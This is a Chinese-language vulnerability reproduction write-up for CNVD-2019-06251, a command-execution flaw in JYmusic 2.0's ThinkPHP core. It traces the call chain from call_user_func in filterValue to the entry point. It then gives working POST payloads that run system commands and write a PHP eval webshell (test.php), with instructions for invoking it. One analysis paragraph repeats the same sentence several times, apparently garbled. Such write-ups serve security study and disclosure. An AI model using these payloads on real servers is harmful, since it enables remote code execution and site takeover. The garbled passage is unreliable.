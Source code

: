 # CNVD-2019-06251 JYmusic 2.0 命令执行漏洞

### 一、漏洞简介

CNVD-2019-06251

### 二、漏洞影响

### 三、复现过程

**漏洞分析**

危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call_user_func函数。

![](images/15891016762915.png)


通过构造使得`$filter=system， $value=dir` ，通过call_user_func函数即可执行系统命令`” dir ”`。

**array_walk_recursive函数**

/core/library/think/Request.php类中的input函数里调用了通过array_walk_recursive函数调用了filterValue函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。

![](images/15891016943287.png)


![](images/15891016976753.jpg)


**input函数**

/core/library/think/Request.php中的param函数调用了input函数。

![](images/15891017062868.jpg)


![](images/15891017090439.jpg)


**exec 函数**

/core/library/think/App.php类中的exec 函数通过Request::instance()->param()调用了param函数。

![](images/15891017204859.jpg)


**run函数**

/core/library/think/App.php类中的run函数则调用了exec函数

![](images/15891017291112.jpg)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![](images/15891017389698.jpg)


![](images/15891017483191.jpg)


**变量覆盖**

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request->method()调用了method函数。

/core/library/think/Request.php类中，通过post参数_method=__construct调用构造函数：

![](images/15891017601533.png)


在构造函数里用filter=system覆盖类中的filter变量。

![](images/15891017675535.png)


post参数 method=GET 就是要再次调用method函数，并且使得`if(true===$method)`为真，从而获取 `_SERVER[REQUEST_METHOD]=dir` 这个参数值。

![](images/15891017810272.jpg)


调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

**漏洞复现**

拦截首页请求，Change request method修改请求方式为POST

参数：

![](images/15891017934041.png)


* POST的参数的作用已在漏洞分析环节分析。
* `filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET`
* POST参数后不能有\r\n回车换行，如果有就不能成功执行。
* POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

写入shell

![](images/15891018122526.png)



```bash
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET
```

phpinfo()

![](images/15891018269880.png)



```bash
http://url/test.php?test=phpinfo(); 

//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。
```

**四、参考链接**

https://blog.csdn.net/yun2diao/article/details/91345116